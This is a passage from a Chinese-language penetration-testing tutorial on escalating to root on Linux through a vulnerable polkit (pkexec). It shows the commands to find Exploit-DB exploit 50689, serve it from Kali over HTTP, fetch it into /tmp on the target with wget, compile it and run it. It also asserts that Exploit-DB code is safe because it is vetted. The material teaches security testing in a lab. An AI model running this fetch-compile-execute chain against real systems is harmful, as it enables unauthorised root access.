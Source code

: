 图 11.15 – searchsploit 搜索结果显示 polkit 漏洞

我们可以使用以下命令列举**polkit**版本：

```
 $ pkexec --version
```

以下图所示的输出显示目标系统的**polkit**版本存在漏洞：

![图 11.16 – pkexec --version 命令揭示目标系统存在漏洞](img/B22229_11_16.jpg)

图 11.16 – pkexec --version 命令揭示目标系统存在漏洞

在尝试利用漏洞之前，我们使用**which gcc**命令检查是否安装了 GCC 编译器。我们发现它已经安装。

我们运行**searchsploit -m 50689**命令，将漏洞代码复制到当前目录。检查该文件的文本，我们发现它包含两个文件的代码，**evil-so.c**和**exploit.c**。

重要提示

在未经检查源代码并确认其中没有恶意内容之前，绝对不要盲目运行漏洞代码和第三方脚本，以免以意外方式利用你或你客户的系统！

由于这个漏洞代码的来源是*Exploit-DB*（**searchsploit**），它是安全的，因为**Offensive Security**在发布漏洞提交之前会对其进行审核。

我们可以将漏洞和脚本传输到目标系统。在 Kali 系统上，创建一个名为**share**的新目录（**mkdir**）。我们永远不希望将我们的主目录或包含敏感信息的任何位置共享到网络。切换到**share**目录（**cd share**），将任何漏洞或脚本复制到该目录，然后启动一个 Python HTTP 服务器，命令如下：**python3 -m http.server**。

在目标系统上，切换到**/tmp**目录（**cd /tmp**）。该目录对所有用户是可写的。**/dev/shm**目录通常也对所有用户是可写的。然后，使用**wget http://192.168.56.11:8000/filename**命令从 Kali 传输文件。当然，请确保根据你的系统修改 IP 地址和文件名。在运行之前，别忘了使你的漏洞或脚本可执行（**chmod +x**）！

在目标系统上，按照下图所示编译漏洞代码：

![图 11.17 – 编译 polkit 漏洞代码](img/B22229_11_17.jpg)

图 11.17 – 编译 polkit 漏洞代码

上图中的输出只是警告，我们使用**ls -l**命令检查文件，发现它们实际上已经被编译。我们通过运行**chmod +x filename**命令更改文件权限，使其可执行，然后运行该漏洞。以下图展示了漏洞的实际操作：

![图 11.18 – 运行 polkit 漏洞代码后获得 root shell](img/B22229_11_18.jpg)
